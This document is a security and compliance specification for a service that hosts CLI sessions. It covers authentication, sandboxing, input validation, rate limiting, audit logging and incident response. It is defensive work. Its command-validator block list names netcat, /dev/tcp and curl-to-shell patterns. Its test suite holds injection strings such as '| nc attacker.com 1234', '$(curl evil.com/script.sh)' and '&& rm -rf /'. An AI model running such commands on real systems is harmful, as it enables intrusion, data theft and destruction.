

# CLI Integration Security & Compliance Specification

## Security Overview

### Security Objectives
1. **Process Isolation**: Prevent CLI processes from affecting system or other sessions
2. **Input Validation**: Block malicious commands and injection attempts
3. **Access Control**: Enforce authentication and authorization
4. **Data Protection**: Secure sensitive information in transit and at rest
5. **Audit Trail**: Comprehensive logging for security events
6. **Resource Protection**: Prevent DoS through resource exhaustion

### Threat Model



## Security Requirements

### SR-1: Authentication & Authorization

#### SR-1.1: Authentication Requirements

**JWT Token Implementation:**
```yaml
jwt_configuration:
  algorithm: HS256 (development) / RS256 (production recommended)
  key_size: 2048
  expiration: 3600  # 1 hour
  refresh_enabled: true
  refresh_expiration: 86400  # 24 hours
  
  required_claims:
    - sub (subject/user_id)
    - exp (expiration)
    - iat (issued_at)
    - jti (JWT ID for revocation)
    - permissions (array)
    - roles (array)
  
  validation_rules:
    - Signature verification
    - Expiration check
    - Issuer validation
    - Audience validation
    - Revocation list check
```

**Multi-Factor Authentication (Optional):**
```yaml
mfa_configuration:
  enabled: false  # Can be enabled for production
  methods:
    - totp
    - webauthn
    - backup_codes
  
  enforcement:
    - full_access_mode: required
    - admin_operations: required
    - sensitive_data: required
```

#### SR-1.2: Authorization Matrix

| Role | Basic CLI | Full Access | Admin Functions | Rate Limit |
|------|-----------|-------------|-----------------|------------|
| Viewer | Read Only | ✗ | ✗ | 10 req/min |
| Developer | ✓ | With Approval | ✗ | 60 req/min |
| Senior Dev | ✓ | ✓ | ✗ | 120 req/min |
| Admin | ✓ | ✓ | ✓ | Unlimited |

**Permission Definitions:**
```python
PERMISSIONS = {
    "cli:read": "View CLI sessions and output",
    "cli:use": "Create and use CLI sessions",
    "cli:full_access": "Use full access mode",
    "cli:admin": "Administrative functions",
    "cli:terminate_any": "Terminate any session",
    "cli:view_any": "View any user's sessions"
}
```

### SR-2: Process Isolation

#### SR-2.1: Sandboxing Requirements

**Linux Security Features:**
```yaml
process_isolation:
  namespaces:
    - PID namespace: Isolate process tree
    - Network namespace: Optional network isolation
    - Mount namespace: Restricted filesystem view
    - User namespace: UID/GID mapping
  
  cgroups:
    memory_limit: 512MB
    cpu_quota: 50%
    pids_max: 100
    
  seccomp:
    profile: "strict"
    allowed_syscalls:
      - read
      - write
      - open
      - close
      - stat
      - fstat
      - mmap
      - mprotect
      - munmap
      - brk
      - rt_sigaction
      - rt_sigprocmask
      - ioctl (limited)
    
  capabilities:
    drop_all: true
    allow: []  # No special capabilities
```

**Container-Based Isolation (Alternative):**
```yaml
docker_isolation:
  image: "cli-sandbox:latest"
  security_options:
    - no-new-privileges
    - seccomp:strict
    - apparmor:cli-profile
  
  resource_limits:
    memory: 512m
    cpus: 0.5
    pids: 100
  
  read_only_root: true
  volumes:
    - type: tmpfs
      target: /tmp
      size: 100m
```

#### SR-2.2: Filesystem Restrictions

**Allowed Paths:**
```yaml
filesystem_access:
  allowed_read:
    - "${WORKSPACE_DIR}"  # User's workspace
    - "/usr/local/bin"    # CLI binaries
    - "/tmp/cli-sessions" # Temporary files
  
  allowed_write:
    - "${WORKSPACE_DIR}"
    - "/tmp/cli-sessions/${SESSION_ID}"
  
  denied_always:
    - "/etc"
    - "/sys"
    - "/proc"
    - "/root"
    - "~/.ssh"
    - "~/.aws"
    - "~/.config"
```

### SR-3: Input Validation & Sanitization

#### SR-3.1: Command Injection Prevention

**Input Validation Rules:**
```python
class CommandValidator:
    # Dangerous patterns to block
    BLOCKED_PATTERNS = [
        r';\s*rm',           # Command chaining with rm
        r'&&.*rm',           # Logical AND with rm
        r'\|\|.*rm',         # Logical OR with rm
        r'`.*`',             # Command substitution
        r'\$\(.*\)',         # Command substitution
        r'>\s*/dev/(tcp|udp)', # Network redirection
        r'nc\s+-l',          # Netcat listener
        r'curl.*\|.*sh',     # Curl pipe to shell
        r'wget.*\|.*sh',     # Wget pipe to shell
    ]
    
    # Maximum input lengths
    MAX_PROMPT_LENGTH = 10000
    MAX_PATH_LENGTH = 4096
    
    def validate_prompt(self, prompt: str) -> bool:
        """Validate user prompt for safety"""
        if len(prompt) > self.MAX_PROMPT_LENGTH:
            raise ValidationError("Prompt too long")
        
        for pattern in self.BLOCKED_PATTERNS:
            if re.search(pattern, prompt, re.IGNORECASE):
                raise ValidationError(f"Dangerous pattern detected")
        
        return True
    
    def sanitize_path(self, path: str) -> str:
        """Sanitize file paths"""
        # Resolve to absolute path
        abs_path = os.path.abspath(path)
        
        # Check for traversal attempts
        if '../' in path or '..\\' in path:
            raise ValidationError("Path traversal detected")
        
        # Ensure within allowed directory
        if not abs_path.startswith(ALLOWED_BASE_DIR):
            raise ValidationError("Path outside allowed directory")
        
        return abs_path
```

#### SR-3.2: Output Sanitization

**Sensitive Data Filtering:**
```python
class OutputSanitizer:
    # Patterns for sensitive data
    SENSITIVE_PATTERNS = [
        (r'[A-Za-z0-9+/]{40}', '[REDACTED_KEY]'),  # API keys
        (r'password["\']?\s*[:=]\s*["\']?[^\s"\']+', 'password: [REDACTED]'),
        (r'token["\']?\s*[:=]\s*["\']?[^\s"\']+', 'token: [REDACTED]'),
        (r'\b[A-Z0-9._%+-]+@[A-Z0-9.-]+\.[A-Z]{2,}\b', '[EMAIL_REDACTED]'),
        (r'\b(?:\d{1,3}\.){3}\d{1,3}\b', '[IP_REDACTED]'),  # IP addresses
        (r'-----BEGIN.*KEY-----.*-----END.*KEY-----', '[PRIVATE_KEY_REDACTED]'),
    ]
    
    def sanitize_output(self, output: str) -> str:
        """Remove sensitive information from output"""
        sanitized = output
        
        for pattern, replacement in self.SENSITIVE_PATTERNS:
            sanitized = re.sub(pattern, replacement, sanitized, flags=re.IGNORECASE)
        
        return sanitized
```

### SR-4: Network Security

#### SR-4.1: TLS/SSL Requirements

**WebSocket Encryption:**
```yaml
tls_configuration:
  minimum_version: TLSv1.3
  cipher_suites:
    - TLS_AES_256_GCM_SHA384
    - TLS_AES_128_GCM_SHA256
    - TLS_CHACHA20_POLY1305_SHA256
  
  certificate_requirements:
    key_size: 2048
    signature_algorithm: SHA256
    validity_period: 365
    
  hsts_header: "max-age=31536000; includeSubDomains; preload"
```

#### SR-4.2: Network Isolation

**Process Network Restrictions:**
```yaml
network_policies:
  cli_processes:
    ingress: deny_all
    egress:
      - allow:
          to: "api.openai.com"
          ports: [443]
      - allow:
          to: "api.anthropic.com"
          ports: [443]
      - allow:
          to: "localhost"
          ports: [8000]  # API server only
      - deny: all_other
```

### SR-5: Rate Limiting & DoS Prevention

#### SR-5.1: Rate Limit Configuration

**Multi-Level Rate Limiting:**
```python
RATE_LIMITS = {
    "global": {
        "requests_per_second": 100,
        "burst_size": 200
    },
    "per_user": {
        "sessions_per_hour": 10,
        "commands_per_minute": 60,
        "bytes_per_hour": 100_000_000  # 100MB
    },
    "per_session": {
        "commands_per_minute": 30,
        "output_bytes_per_minute": 1_000_000  # 1MB
    },
    "per_ip": {
        "requests_per_minute": 100,
        "sessions_per_hour": 5
    }
}
```

**Implementation:**
```python
class RateLimiter:
    def __init__(self, redis_client):
        self.redis = redis_client
    
    def check_rate_limit(self, key: str, limit: int, window: int) -> bool:
        """Check if rate limit exceeded"""
        current = self.redis.incr(key)
        if current == 1:
            self.redis.expire(key, window)
        
        if current > limit:
            raise RateLimitExceeded(
                f"Rate limit exceeded: {current}/{limit} in {window}s"
            )
        
        return True
```

#### SR-5.2: Resource Protection

**Resource Limits:**
```yaml
resource_limits:
  per_user:
    max_sessions: 5
    max_processes: 5
    max_memory_mb: 2048
    max_cpu_percent: 25
  
  per_session:
    max_lifetime_minutes: 60
    max_idle_minutes: 5
    max_memory_mb: 512
    max_output_bytes: 10_000_000
  
  system:
    max_total_sessions: 100
    max_total_processes: 50
    emergency_kill_threshold: 90%  # CPU or memory
```

### SR-6: Audit & Compliance

#### SR-6.1: Audit Logging

**Security Event Logging:**
```python
SECURITY_EVENTS = {
    "AUTH_SUCCESS": "Successful authentication",
    "AUTH_FAILURE": "Failed authentication attempt",
    "SESSION_CREATE": "CLI session created",
    "SESSION_TERMINATE": "CLI session terminated",
    "PERMISSION_DENIED": "Permission denied for operation",
    "RATE_LIMIT_EXCEEDED": "Rate limit exceeded",
    "INJECTION_ATTEMPT": "Potential injection attempt blocked",
    "RESOURCE_LIMIT": "Resource limit reached",
    "SUSPICIOUS_ACTIVITY": "Suspicious activity detected",
    "ADMIN_ACTION": "Administrative action performed"
}

class SecurityAuditor:
    def log_event(self, event_type: str, details: dict):
        """Log security event with full context"""
        log_entry = {
            "timestamp": datetime.utcnow().isoformat(),
            "event_type": event_type,
            "user_id": details.get("user_id"),
            "session_id": details.get("session_id"),
            "ip_address": details.get("ip_address"),
            "user_agent": details.get("user_agent"),
            "details": details,
            "risk_score": self.calculate_risk_score(event_type, details)
        }
        
        # Log to secure audit log
        self.audit_logger.info(json.dumps(log_entry))
        
        # Alert on high-risk events
        if log_entry["risk_score"] > 7:
            self.send_security_alert(log_entry)
```

#### SR-6.2: Compliance Requirements

**GDPR Compliance:**
```yaml
gdpr_compliance:
  data_retention:
    session_data: 30_days
    audit_logs: 365_days
    user_commands: 7_days
  
  data_anonymization:
    - Remove PII from logs after 30 days
    - Hash user identifiers
    - Redact sensitive command content
  
  user_rights:
    - Right to access data
    - Right to deletion
    - Right to data portability
    - Right to correction
```

**SOC 2 Requirements:**
```yaml
soc2_compliance:
  controls:
    - Access control enforcement
    - Encryption in transit and at rest
    - Audit logging
    - Change management
    - Incident response
  
  monitoring:
    - Real-time security monitoring
    - Anomaly detection
    - Alert escalation
    - Incident tracking
```

### SR-7: Incident Response

#### SR-7.1: Security Incident Classification

| Severity | Description | Response Time | Examples |
|----------|-------------|---------------|----------|
| Critical | System compromise | < 15 min | RCE, data breach |
| High | Security breach attempt | < 1 hour | Auth bypass, privilege escalation |
| Medium | Security policy violation | < 4 hours | Rate limit bypass, injection attempt |
| Low | Minor security event | < 24 hours | Failed auth, scan attempt |

#### SR-7.2: Incident Response Procedures

**Automated Response:**
```python
class IncidentResponder:
    def handle_incident(self, incident: SecurityIncident):
        """Automated incident response"""
        
        if incident.severity == "CRITICAL":
            # Immediate containment
            self.isolate_affected_sessions(incident)
            self.block_source_ip(incident.source_ip)
            self.notify_security_team(incident)
            self.create_incident_ticket(incident)
            
        elif incident.severity == "HIGH":
            # Targeted response
            self.terminate_session(incident.session_id)
            self.revoke_user_tokens(incident.user_id)
            self.increase_monitoring(incident.user_id)
            
        elif incident.severity == "MEDIUM":
            # Preventive measures
            self.apply_rate_limiting(incident.source)
            self.log_security_event(incident)
            
        # Generate incident report
        self.generate_report(incident)
```

### SR-8: Security Testing

#### SR-8.1: Security Test Suite

**Automated Security Tests:**
```python
class SecurityTests:
    def test_injection_prevention(self):
        """Test command injection prevention"""
        injections = [
            "; cat /etc/passwd",
            "&& rm -rf /",
            "| nc attacker.com 1234",
            "$(curl evil.com/script.sh)",
            "`whoami`"
        ]
        
        for injection in injections:
            response = self.send_command(injection)
            assert response.status_code in [400, 403]
            assert "blocked" in response.json()["error"]
    
    def test_authentication_bypass(self):
        """Test authentication cannot be bypassed"""
        attempts = [
            {"token": "invalid"},
            {"token": None},
            {"token": ""},
            {"token": self.expired_token},
            {"token": self.malformed_token}
        ]
        
        for attempt in attempts:
            response = self.create_session(**attempt)
            assert response.status_code == 401
    
    def test_rate_limiting(self):
        """Test rate limiting enforcement"""
        for i in range(100):
            response = self.send_command("test")
            if i > 60:  # Over limit
                assert response.status_code == 429
```

#### SR-8.2: Penetration Testing

**Penetration Test Scope:**
```yaml
pentest_scope:
  targets:
    - Web dashboard
    - API endpoints
    - WebSocket connections
    - CLI process isolation
  
  test_types:
    - Authentication testing
    - Authorization testing
    - Input validation testing
    - Session management testing
    - Cryptography testing
    - Business logic testing
  
  tools:
    - OWASP ZAP
    - Burp Suite
    - SQLMap
    - Metasploit
    - Custom scripts
  
  schedule: Quarterly
```

### SR-9: Security Monitoring

#### SR-9.1: Real-Time Monitoring

**Security Metrics:**
```yaml
security_metrics:
  authentication:
    - failed_login_attempts
    - successful_logins
    - token_validation_errors
    - mfa_challenges
  
  authorization:
    - permission_denied_events
    - privilege_escalation_attempts
    - unauthorized_access_attempts
  
  threats:
    - injection_attempts
    - scanning_activity
    - unusual_command_patterns
    - data_exfiltration_attempts
  
  system:
    - process_escapes
    - resource_exhaustion
    - abnormal_network_activity
```

**Alert Rules:**
```python
ALERT_RULES = [
    {
        "name": "Multiple failed auth attempts",
        "condition": "failed_auth > 5 in 5min",
        "severity": "HIGH",
        "action": "block_ip"
    },
    {
        "name": "Injection attempt detected",
        "condition": "injection_blocked > 0",
        "severity": "MEDIUM",
        "action": "notify_security"
    },
    {
        "name": "Unusual data transfer",
        "condition": "bytes_transferred > 100MB in 10min",
        "severity": "HIGH",
        "action": "investigate"
    }
]
```

### SR-10: Security Configuration

#### SR-10.1: Default Security Settings

```yaml
default_security_config:
  authentication:
    jwt_required: true
    mfa_available: true
    session_timeout: 3600
    max_sessions_per_user: 5
  
  process_security:
    sandbox_enabled: true
    network_isolation: true
    filesystem_restrictions: true
    resource_limits: true
  
  monitoring:
    audit_logging: true
    security_monitoring: true
    anomaly_detection: true
    alert_notifications: true
  
  data_protection:
    encryption_in_transit: true
    encryption_at_rest: true
    output_sanitization: true
    pii_redaction: true
```

#### SR-10.2: Security Headers

```python
SECURITY_HEADERS = {
    "Strict-Transport-Security": "max-age=31536000; includeSubDomains; preload",
    "Content-Security-Policy": "default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'",
    "X-Frame-Options": "DENY",
    "X-Content-Type-Options": "nosniff",
    "X-XSS-Protection": "1; mode=block",
    "Referrer-Policy": "strict-origin-when-cross-origin",
    "Permissions-Policy": "geolocation=(), microphone=(), camera=()"
}

# Note: The dashboard currently uses a single-page HTML with React UMD and some inline scripts.
# For production, bundle frontend assets and progressively tighten CSP (remove 'unsafe-inline').
```

## Security Checklist

### Pre-Deployment Security Checklist

- [ ] All dependencies updated to latest secure versions
- [ ] Security headers configured
- [ ] TLS/SSL properly configured
- [ ] Authentication system tested
- [ ] Authorization matrix implemented
- [ ] Input validation active on all endpoints
- [ ] Output sanitization working
- [ ] Rate limiting configured
- [ ] Process isolation verified
- [ ] Resource limits enforced
- [ ] Audit logging enabled
- [ ] Security monitoring active
- [ ] Incident response procedures documented
- [ ] Security tests passing
- [ ] Penetration test conducted
- [ ] Security documentation complete
- [ ] Security training completed
- [ ] Emergency response contacts updated

### Post-Deployment Security Checklist

- [ ] Security monitoring dashboards active
- [ ] Alert notifications working
- [ ] Audit logs being collected
- [ ] Regular security scans scheduled
- [ ] Incident response team notified
- [ ] Security metrics baseline established
- [ ] Vulnerability scanning enabled
- [ ] Security patches process defined
- [ ] Access reviews scheduled
- [ ] Security awareness communicated
